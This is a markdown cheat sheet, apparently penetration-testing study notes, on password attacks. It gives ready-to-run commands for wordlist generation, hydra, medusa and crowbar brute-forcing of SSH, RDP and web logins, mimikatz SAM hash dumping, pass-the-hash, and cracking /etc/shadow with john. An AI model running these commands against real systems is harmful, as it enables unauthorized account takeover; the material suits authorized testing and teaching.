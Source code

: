 ```yaml
---
title: Password Attacks
---
```


## Wordlists

 Save more time at the expense of low coverage.

Try the most possible passwords.

`/usr/share/wordlists`

 ### Standard Wordlists

To create custom password lists

 ```bash
cewl --help | less
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt		# scrape website, search for words with at least 6 chars and write them to a txt
 ```

Use **John** to create different styles of passwords

```bash
sudo nano /etc/john/john.conf
# find [List.Rules:WordList]
# set some rules, such as adding 2 digits at the end of each password
$[0-9]$[0-9]
john --wordlis=megacorp-cewl.txt --rules --stdout > mutate.txt
```

### Brute Force Wordlists

Test every password combinations.

#### Generate brute force passwords in a certain pattern to save time with 'crunch'

| Placeholder | Character Translation              |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Uppercase alpha characters         |
| %           | Numeric characters                 |
| ^           | Special characters including space |

```bash
crunch 8 8 -t ,@@^^%%% # generate pwd with min and max length of 8 chars, -t to specify pattern
crunch 4 6 0123456789ABCDEF -o crunch.txt		# use only some characters
# /usr/share/crunch/charset.lst			generate pwd with predefined char sets
crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt	# choose char set, and mixalpha for upper/lower letters
```



## Common Network Service Attack Methods

### HTTP htaccess Attack with Medusa

```bash
medusa -h <HOST IP> -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin 
```

### Remote Desktop Protocol Attack with Crowbar

```bash
sudo apt install crowbar
crowbar -b rdp -s <HOST IP> -u admin -C <password file> -n 1	# -b for protocol, -n for number of thread
```

### SSH Attack with THC-Hydra

```bash
# -l 					target username
# -P 					Wordlist
# protocol://IP           protocol and IP address
hydra -l kali -P <pwd file> ssh:<IP>
```

### HTTP POST Attack with THC-Hydra

```bash
hydra http-form-post -U | less		# provide more arguments for a form
# look at web page source code first for understanding how a form looks like

hydra <IP> http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P <pwd file> -vV -f
# -f for: stop after first success
```



## Leveraging Password Hashes

### Retrieving Password Hashes

```bash
hashid "<hash>"				# analyze hash
```

Use mimikatz to retrieve pwd hashes from windows

```powershell
# Within mimikatz
privilege::debug
token::elevate		# elevate from high integrity to system integrity
lsadump::sam		# dump hashes
```

### Passing the Hash in Windows

Use hash to authenticate instead of clear text password. Since Windows doesn't use salt with hashes, the hashes are static. So if 2 machines has the same username and password, you could use the hash of one machine to login to the other.

```bash
pth-winexe -U <USERNAME>%<HASH> //<IP> cmd
```

### Password Cracking

Process of recovering the clear text of a password given its hashed form.

```bash
# windows hashes
john hash.txt --format=NT
john --wordlist=<word list> hash.txt --format=NT
john --rules --wordlist=<word list> hash.txt --format=NT

# linux cracking
grep <username> /etc/passwd > pwd-file.txt
sudo grep <username> /etc/shadow > shadow-file.txt
unshadow pwd-file.txt shadow-file.txt > unshadowed.txt
john --rules --wordlist=<rockyou.txt> unshadowed.txt
# --fork to multithread on older versions, default in new versions
# --node distribute load on multiple computers
```

John is limited by CPU speed.

[https://hashcat.net](https://hashcat.net): use GPU.

[https://hashcat.net/wiki/](https://hashcat.net/wiki/)

































